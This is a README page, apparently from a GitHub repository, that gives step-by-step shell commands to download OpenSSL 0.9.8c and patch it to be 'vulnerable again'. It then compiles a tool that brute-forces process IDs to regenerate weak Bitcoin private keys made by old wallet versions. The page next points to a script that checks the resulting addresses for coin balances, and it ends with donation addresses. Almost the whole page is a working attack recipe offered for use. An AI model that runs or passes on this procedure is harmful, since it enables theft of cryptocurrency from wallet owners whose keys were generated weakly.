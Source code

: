 # Reducing the private key through scalar multiplication

---

* Tutorial: https://youtu.be/zu2yiaZ_LOs
* Tutorial: https://cryptodeep.ru/reduce-private-key

---

# Commands:

    git clone https://github.com/demining/CryptoDeepTools.git

    cd CryptoDeepTools/05VulnerableOpenSSL/

    apt-get update

    sudo apt-get install g++ -y

    sudo apt-get install libgmp3-dev libmpfr-dev -y

    wget https://ftp.openssl.org/source/old/0.9.x/openssl-0.9.8c.tar.gz

    tar xfz openssl-0.9.8c.tar.gz

    mv openssl-0.9.8c openssl-0.9.8c-vuln

    cd openssl-0.9.8c-vuln

    ls -lh

    patch -p1 <../make-OpenSSL-0-9-8c-vulnerable-again.diff

    ./Configure linux-x86_64 shared no-ssl2 no-ssl3 no-comp no-asm

    make depend all

    cd /

    ls

    cd content/CryptoDeepTools/05VulnerableOpenSSL/

    ls -lh


# Compilation:

    gcc -o cryptodeepbtcgen cryptodeepbtc.c -I./openssl-0.9.8c-vuln/include -L./openssl-0.9.8c-vuln -lssl -lcrypto

    ls -lh


RUN:

    LD_LIBRARY_PATH=./openssl-0.9.8c-vuln/ ./cryptodeepbtcgen -h


Version 0.1.2 (le64)

Usage:

-p n-m		Brute Force between PID n-m [default 0-32768]

-n <num>	Create num number of keys per PID [default: 10]

-l		Show all supported BTC versions

-v <prog>	Which BTC version to run (Try -l to find number) [0-43]

-x		Skip Self-Check



    LD_LIBRARY_PATH=./openssl-0.9.8c-vuln/ ./cryptodeepbtcgen -l



#0   - 0.3.24

#1   - 0.8.6-d

#2   - 0.8.6-qt

#3   - 0.9.1-d

#4   - 0.9.4-d

#5   - unknownA

#6   - unknownB

#7   - unknownC

e.t.c
e.t.c


    LD_LIBRARY_PATH=./openssl-0.9.8c-vuln/ ./cryptodeepbtcgen -n 32 -v 0 >> result.txt


Next, it remains to check all the generated Bitcoin Addresses for the presence of BTC coins, for this we can use a python script:  [bitcoin-checker.py](https://github.com/demining/CryptoDeepTools/blob/main/03CheckBitcoinAddressBalance/bitcoin-checker.py)


---

* Tutorial: https://youtu.be/zHkXups2I8k
* Tutorial: https://cryptodeep.ru/vulnerable-openssl

---







|  | Donation Address |
| --- | --- |
| ♥ __BTC__ | 1Lw2kh9WzCActXSGHxyypGLkqQZfxDpw8v |
| ♥ __ETH__ | 0xaBd66CF90898517573f19184b3297d651f7b90bf |
